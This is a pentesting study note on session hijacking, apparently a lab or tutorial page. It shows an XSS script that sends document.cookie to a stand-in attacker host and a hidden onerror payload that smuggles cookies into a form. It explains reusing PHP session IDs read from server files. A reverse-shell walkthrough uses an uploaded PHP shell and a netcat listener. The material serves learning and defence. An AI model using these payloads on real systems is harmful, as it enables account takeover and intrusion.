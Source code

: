 Session Hijacking refers to the **exploitation of a valid session assigned to a user**. The attacker can get the victim’s session identifier using a few different methods, though typically an XSS is used.

A Session Hijack attack can happen by:

![session hijacking](images/sess-hijacking.png)

<br/>

# Example

The application does not properly sanitize the input in the comment field. So, the attacker can insert the malicious payload here:

![session hijacking example](images/sess-hijacking2.png)

![session hijacking example result](images/sess-hijacking3.png)

By using the following script, we will be able to steal the users cookies.

    <script>
     var i=new Image();
     i.src="http://attacker.site/steal.php?q="%2bdocument.cookie;
    </script>

cookie needs to be accessbile by javascript for this to work, and preventing it solves the problem.(HTTPOnly flag set to true)

<br/>

# Packet sniffing

You can also use wireshark if you are on the same network to sniff the session value.

![packet sniffing](images/packet-sniff.png)

<br/>

# Access the web server

Session data will be stored within the folder specified by the php.ini entry **session.save_path**. The attacker will focus on files names **sess_&lt;sessionID>**

In a real-world example, we could find the following entries:

    sess_ta9i1kqska407387itjfl57624

    sess_7o4l0kk5btl4e4qlok8r26tn12

If you want to hijack the user session related to the first entry,install a new cookie in your web browser using these values:

    cookie name: PHPSESSID
    cookie value: ta9i1kqska407387itjfl57624

The attack is very simple; however, it is critical that the attacker
can access the web server file system.

<br/>

### ASP.NET can store session data in three different locations:

![asp.net session](images/asp.png)

<br/>

# Payloads

    <div style="display: none;"> 
    <img src="fgfdgNotExistent" onerror="document.getElementById('form').onsubmit=function () {
    var hidden='<span style=\'display:none;\'>'+document.cookie+'</span>'; 
    document.getElementById('message').value+=hidden;}"/>
    </div>

![payload-example](images/payload-1.png)

Create a hidden div below the actual message

    <div style="display: none;">

This div will contain the actual payload and is used to hide the image.

Create an image with a non-existent path. This will trigger an error (because the image cannot be found), caught by the onerror event, that contains the actual payload

    <img src="fgfdgNotExistent" onerror=[PAYLOAD]

The payload will simply create a hidden span that will contain the document.cookie object value. This span will be appended to the object with ID being message. This object happens to be the Textarea form element that the victim will have to submit.

once the user submits the form, the cookie will be stored in the hidden span

![payload-example-2](images/payload-2.png)

![payload-example-3](images/payload-3.jpg)

<br/>

# Challenge 2 reverse shell

## First step

Find a script for reverse shell based on languange (php, python, ruby, perl, bash, etc) for this example we will use **PHP**.

Copy the script to a file and upload it to the server.(name it shell.php)

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


Change the ip and port to your own 

Type in the cmd **ifconfig** to find the ip address connected to the server/network. If the ip is 10.100.13.200 then change the **IP** in the script file to it.

    IP  : 10.100.13.200

    Port : 1234

Go to this link for the tutorial

https://pentestmonkey.net/tools/web-shells/php-reverse-shell

After uploading the script click on it in the browser and then type in the cmd **nc -nvlp 1234** to listen for the reverse shell. 

    nc -nvlp 1234

In the command line from the shell type this command to find the session_save_path:

    php -r 'echo session_save_path(), "\n";' 

Finally you can check the directory with **ls** and print the content with **cat**.

    ls 
    cat [file name]
